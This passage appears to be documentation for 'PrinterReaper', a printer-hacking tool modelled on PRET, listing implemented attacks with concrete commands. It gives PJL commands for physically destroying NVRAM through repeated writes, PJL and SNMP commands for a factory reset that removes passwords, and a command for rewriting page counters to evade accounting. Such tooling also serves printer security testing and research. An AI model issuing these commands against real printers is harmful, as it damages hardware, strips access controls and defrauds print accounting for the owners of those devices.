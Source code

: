 
### 2️⃣ **PHYSICAL DAMAGE**

#### 2.1 NVRAM Destroy
**Descrição**: Causar dano físico ao NVRAM  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `destroy`  
**Comando PrinterReaper**: `destroy`  
**PJL Underlying**: `@PJL SET NVRAM=0` (repeated writes)

**Teste**:
```
destroy
# Requires confirmation: yes
```

---

### 3️⃣ **PRIVILEGE ESCALATION**

#### 3.1 Factory Reset
**Descrição**: Resetar para configurações de fábrica (remove senhas)  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `reset`  
**Comando PrinterReaper**: `reset`  
**PJL Underlying**: `@PJL DEFAULT`  
**SNMP Alternative**: `snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6`

**Teste**:
```
reset
# Requires confirmation: yes
```

---

### 4️⃣ **ACCOUNTING BYPASS**

#### 4.1 Page Counter Manipulation
**Descrição**: Manipular contador de páginas para bypass de accounting  
**Status**: ✅ **IMPLEMENTADO**  
**Comando PRET**: `pagecount <number>`  
**Comando PrinterReaper**: `pagecount <number>`  
**PJL Underlying**: `@PJL SET PAGECOUNT=<number>`

**Teste**:
```
pagecount          # Show current count
pagecount 0        # Reset to zero
pagecount 999999   # Set to high value
```

---
